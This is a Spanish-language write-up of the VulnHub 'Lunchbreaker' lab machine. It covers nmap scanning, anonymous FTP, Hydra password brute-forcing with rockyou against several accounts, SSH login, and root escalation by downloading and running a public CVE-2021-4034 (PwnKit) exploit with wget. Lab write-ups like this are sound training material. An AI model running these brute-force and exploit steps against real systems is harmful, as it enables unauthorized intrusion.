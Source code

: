 ```yaml
---
title: Lunchbreaker
date: 2024-07-16
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con NMAP, para comprobar los que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.159 -n -Pn -v
```

![picture](/assets/images/vulnhub/lunch1.png){: w="600" h="300" }

Vamos a volver a realizar un escaneo de los 3 puertos encontrados, para comprobar las versiones, y lanzar una serie de scripts predefinidos de NMAP, para ver si puede encontrar algo interesante.

```bash
nmap -p21,22,80 -sV -sC 192.168.1.159 -v
```

![picture](/assets/images/vulnhub/lunch2.png){: w="600" h="300" }

Encontramos el ussuario **Anonymous** activo, nos metemos en el servicio **FTP** con el usuario **Anonymous** y nos descargamos los archivos **supers3cr3t** y **.s3cr3t** ya que *Wordpress* es un directorio.

![picture](/assets/images/vulnhub/lunch3.png){: w="600" h="300" }

El contenido del archivo **supers3cr3t** está cifrado en **brainfuck**, así que vamos a internet a intentar descifrarlo.

![picture](/assets/images/vulnhub/lunch4.png)
![picture](/assets/images/vulnhub/lunch5.png)

Y el archivo **.s3cr3t** está crifrado en **base64**, así que vamos a descifrarlo.

![picture](/assets/images/vulnhub/lunch6.png)
![picture](/assets/images/vulnhub/lunch7.png)

Vamos a comprobar de que se trata la página web.

Lo único que podemos encontrar es un posible nombre de usuario inspeccionando el código de la página.

![picture](/assets/images/vulnhub/lunch8.png)

Vamos a realizar **Fuzzing** para ver si encontramos algo.

```bash
gobuster dir -u http://192.168.1.159 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```
No encontramos nada interesante.

![picture](/assets/images/vulnhub/lunch9.png)

---

## **Explotación**

Con el nombre de ususario encontrado, vamos a intentar encontrar la contraseña para el servicio de **FTP**, utilizando un ataque de diccionario con la herramienta **Hydra**.

```bash
hydra -t 64 -l jane -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

Y obtenemos la contraseña.

![picture](/assets/images/vulnhub/lunch11.png)

Accedemos mediante las credenciales en el servicio **FTP**, y encontramos un archivo "**keys.txt**" que nos vamos a descargar en nuestra máquina local.

![picture](/assets/images/vulnhub/lunch12.png){: w="600" h="300" }

El contenido del archivo parece estar encriptado.

![picture](/assets/images/vulnhub/lunch13.png)

Buscando en el servicio **FTP**, encontramos mas directorios personales de otros usuarios.

![picture](/assets/images/vulnhub/lunch14.png){: w="600" h="300" }

Vamos a realizar ataques de diccionario, para intentar encontrar la contraseña de los otros usuarios encontrados en el servicio **FTP**. 

```bash
hydra -t 64 -l jim -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

```bash
hydra -t 64 -l jules -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

Encontramos la contraseña del usuario **jim** y **jules**.

![picture](/assets/images/vulnhub/lunch15.png)

Accedemos mediante **FTP** y sus credenciales.

En el directorio de **jim** no encontramos nada, pero en el de **jules**, encontramos un directorio oculto llamado **".backups"**, y dentro de el, archivos de credenciales, nos los descargamos y comprobamos que son contraseñas.

![picture](/assets/images/vulnhub/lunch16.png)
![picture](/assets/images/vulnhub/lunch17.png)

Ahora intentaremos realizar un ataque de diccionario con los archivos encontrados para intentar encontrar las credenciales de usuario **john**.

Encontramos la contraseña de **FTP**.

![picture](/assets/images/vulnhub/lunch18.png)

Probando con las contraseñas encontradas, intento conectarme mediante el servicio **SSH**, y obtengo resultado con **jules**.

![picture](/assets/images/vulnhub/lunch19.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Dentro de la máquina, viendo los procesos que se están ejecutando en la máquina en búsqueda de escalada de privilegios encontramos el siguiente.

![picture](/assets/images/vulnhub/lunch20.png)

Si buscamos su versión, nos sale la ***0.105***.

![picture](/assets/images/vulnhub/lunch21.png)

Buscando en internet encontramos la vulnerabilidad [**CVE-2021-4034**](https://github.com/joeammond/CVE-2021-4034), la cual nos permite escalar los máximos privilegios.

Nos descargamos el script de **Python**.

```bash
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
```

![picture](/assets/images/vulnhub/lunch22.png)

Lo ejecutamos, y obtenemnos una shell de **root**.

![picture](/assets/images/vulnhub/lunch23.png)

Podemos leer la única **flag** que tiene la máquina.

![picture](/assets/images/vulnhub/lunch24.png){: w="600" h="300" }


